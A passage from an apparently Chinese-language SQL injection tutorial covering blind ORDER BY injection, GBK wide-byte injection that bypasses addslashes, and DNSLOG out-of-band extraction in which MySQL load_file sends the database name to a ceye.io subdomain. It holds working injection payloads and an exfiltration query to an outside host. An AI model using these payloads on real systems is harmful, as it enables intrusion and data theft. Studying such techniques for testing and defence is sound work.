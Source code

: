 ```
http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
```

### 寬字節注入

國內最常使用的 GBK 編碼，這種方式主要是繞過 `addslashes` 等對特殊字符進行轉移的繞過。反斜槓 `\` 的十六進制爲 `%5c`，在你輸入 `%bf%27` 時，函數遇到單引號自動轉移加入 `\`，此時變爲 `%bf%5c%27`，`%bf%5c`
在 GBK 中變爲一個寬字符「縗」。`%bf` 那個位置可以是 `%81-%fe` 中間的任何字符。不止在 SQL 注入中，寬字符注入在很多地方都可以應用。

### DNSLOG注入

**DNS在解析的時候會留下日誌，通過讀取多級域名的解析日誌，來獲取信息。簡單來說就是把信息放在高級域名中，傳遞到自己這，然後讀取日誌，獲取信息。**

dnslog平臺：[http://ceye.io/](http://ceye.io/)

```
mysql> use security;
Database changed

mysql> select load_file('\\\\test.xxx.ceye.io\\abc');
+-------------------------------------------+
| load_file('\\\\test.xxx.ceye.io\\abc') |
+-------------------------------------------+
| NULL                                      |
+-------------------------------------------+
1 row in set (22.05 sec)

mysql> select load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc'));
+----------------------------------------------------------------------+
| load_file(concat('\\\\',(select database()),'.xxx.ceye.io\\abc')) |
+----------------------------------------------------------------------+
| NULL                                                                 |
+----------------------------------------------------------------------+
1 row in set (0.00 sec)
```
![](./php/figure/preg_match/sqli1.png)

## 參考資料

-   [SQL 注入速查表](http://drops.xmd5.com/static/drops/tips-7840.html)
-   [MySQL 注入技巧](http://drops.xmd5.com/static/drops/tips-7299.html)
-   [MySQL 注入科普](http://drops.xmd5.com/static/drops/tips-123.html)
-   [MySQL 注入總結](http://www.91ri.org/4073.html)
-   [《SQL 注入攻擊與防禦》](http://product.dangdang.com/23364650.html)
